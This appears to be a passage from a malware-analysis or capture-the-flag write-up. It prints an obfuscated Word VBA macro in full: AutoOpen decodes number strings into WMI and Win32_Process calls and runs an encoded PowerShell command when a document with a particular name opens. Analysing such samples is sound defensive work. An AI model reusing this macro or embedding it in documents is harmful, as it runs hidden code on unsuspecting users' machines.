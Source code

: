 ```shell
    GetObject(Nuts("136122127126120126133132075")).Get(Nuts("104122127068067112097131128116118132132")).Create Water, Tea, Coffee, Napkin

End Function

Sub AutoOpen()
    Tragedy
End Sub
```

Well, well, well. Look what we have here. An obfuscated VBScript/Macro it seems.

```vbscript
Attribute VB_Name = "NewMacros"

Function Pears(Beets)
    Pears = Chr(Beets - 17)
End Function

Function Strawberries(Grapes)
    Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
    Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
    Do
    OatMilk = OatMilk + Pears(Strawberries(Milk))
    Milk = Almonds(Milk)
    Loop While Len(Milk) > 0
    Nuts = OatMilk
End Function


Function Bears(Cows)
    Bears = StrReverse(Cows)
End Function

Function Tragedy()
    Dim Apples As String
    Dim Water As String

    If ActiveDocument.Name <> Nuts("131134127127118131063117128116") Then
        Exit Function
    End If

    Apples = "129128136118131132121118125125049062118127116049091088107132106104116074090126107132106104117072095123095124106067094069094126094139094085086070095139116067096088106065107085098066096088099121094101091126095123086069106126095074090120078078"
    Water = Nuts(Apples)

    GetObject(Nuts("136122127126120126133132075")).Get(Nuts("104122127068067112097131128116118132132")).Create Water, Tea, Coffee, Napkin
End Function

Sub AutoOpen()
    Tragedy
End Sub
```
